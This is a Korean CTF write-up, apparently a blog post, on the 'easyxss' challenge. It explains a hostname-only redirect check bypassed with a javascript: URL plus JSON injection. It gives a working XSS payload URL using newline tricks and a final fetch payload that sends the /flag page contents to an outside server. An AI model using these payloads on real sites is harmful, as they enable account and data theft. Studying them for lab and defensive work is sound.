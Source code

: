 ```yaml
---
title: ["Bypassing XSS Filters"]
date: 2025-01-24 09:00:00 +0900
categories: [techniques, XSS]
tags: [web, xss, bypassing filters]
---
```


Pocas님이 출제하신 easyxss를 풀고 관련된 개념을 정리하려고 한다.    

> 가끔 웹 서비스를 사용하다 보면 로그인, 로그아웃을 포함한 여러 로직에서 ret_url, redirect_url, return_url, url과 같은 파라미터 값을 가져와서 로그인 성공 및 로그아웃 성공 시에 해당 url로 리다이렉션 시켜주는 경우가 많습니다.  
하지만 리다이렉션 url을 서버 단에서 검증 할 때, hostname만 검증 하는 경우를 많이 보았습니다. 이와 같이 hostname만 검증을 할 경우에는 javascript 스킴을 이용해서 hostname을 우회해 XSS 취약점이 발생할 수 있습니다.  
실제로도 스타벅스 웹 사이트를 포함한 여러 사이트에서 발생한 것을 검색을 통해 확인할 수 있으며 얼마 전 카카오 사이트에서도 트리거가 되었습니다.  


## Trigger Point
```javascript
router.get('/', (req, res) => {
    const blog = req.query.blog || 'https://pocas.kr';
    const user = JSON.parse(`{"username":"Tester", "setblog":"${blog}"}`);
    const url = parse(user['setblog'], true)
    , hostname = url.hostname;

    if ((hostname === 'web-noob.kr' && user['username'] === 'hello') || (hostname === 'web-noob.kr' && username === 'world')) {
        console.log(1)
        res.render('index', {url:url});
    } else {
        res.render('index', {url:'#'});
    }
});
```
주요 취약점 포인트이다.  
`blog` 파라미터로 JSON string Injection이 가능하다.  
`hostname` 값 검증을 통과해야 하므로 hostname spoofing을 해야한다. 

## XSS
`url-parse` 모듈에서 `javascript://web-noob.kr`과 같은 입력은 `javascript`를 scheme으로 `web-noob.kr`은 hostname으로 파싱된다.  
`url-parse` 모듈과 페이지 렌더링 방식의 차이를 이용해서 XSS를 트리거시킬 수 있다.  

```
?blog=javascript://web-noob.kr/%250aalert(1);%22%2C%22username%22%3A%22hello
```
위와 같은 입력값에 대해서 `url-parse`모듈은 hostname을 `web-noob.kr`로 인식하지만,  
`url.href`가 해당값을 렌더링할 때는 `//`가 주석으로 처리되어 줄바꿈으로 다음 명령어를 실행하도록 한다.
```
javascript:
//web-noob.kr/
alert(1);
```

만약 `%0a`, `%0d` 등이 필터링되는 경우, `U+2028`과 같은 line separator를 사용할 수도 있다.

이후에는 CSP 설정으로 bot의 쿠키값을 직접 전송은 불가하고, bot이 flag 페이지에 접속하여 response 값을 서버로 전송하는 방식으로 페이로드를 구성하였다.  

```javascript
fetch('/flag').then(res=>res.text()).then(text=>{fetch('https://my-server.com',{'method':'POST','body':text})})
```